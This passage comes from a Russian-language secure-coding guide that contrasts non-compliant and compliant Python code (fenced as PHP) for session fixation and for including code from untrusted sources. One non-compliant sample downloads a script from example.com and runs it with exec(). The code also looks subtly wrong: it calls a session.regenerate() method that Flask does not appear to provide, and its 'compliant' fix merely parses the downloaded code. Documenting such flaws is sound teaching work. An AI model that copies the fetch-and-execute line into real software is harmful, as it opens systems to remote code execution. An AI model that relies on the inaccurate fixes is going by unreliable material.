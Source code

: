 ```php
        session.regenerate()  # Регенерация идентификатора сеанса
        session['username'] = username
        return 'Login successful'
    else:
        return 'Login failed'

@app.route('/profile')
def profile():
    if 'username' in session:
        return f"Welcome, {session['username']}!"
    else:
        return 'Please login'

# Пример использования
app.run()
```


Соответствующий код устраняет уязвимость фиксации сеанса путем регенерации идентификатора сеанса при успешном входе в систему с помощью метода regenerate(), предоставляемого объектом session. Это гарантирует, что идентификатор сеанса будет изменен после аутентификации, что не позволит злоумышленнику зафиксировать идентификатор сеанса и перехватить сеанс пользователя.

Регенерируя идентификатор сеанса при входе в систему, совместимый код снижает риск атак с фиксацией сеанса. Он гарантирует, что каждый пользователь получит уникальный и непредсказуемый идентификатор сеанса, что повышает безопасность механизма управления сеансами.





## Включение функциональности из недоверенного управления

<span class="d-inline-block p-2 mr-1 v-align-middle bg-red-000"></span>Несоответствующий код:


```php
import requests

# Получение и выполнение кода из ненадежного источника
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
exec(untrusted_code)
```

Несоответствующий код получает код из недоверенного источника с помощью библиотеки запросов и выполняет его с помощью функции exec(). Такой подход создает значительные риски для безопасности, поскольку недоверенный код может содержать вредоносные инструкции или выполнять несанкционированные действия в системе.






<span class="d-inline-block p-2 mr-1 v-align-middle bg-green-000"></span>Соответствующий код:


```php
import requests
import ast

# Получение и оценка кода из недоверенного источника
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
ast.parse(untrusted_code)
```
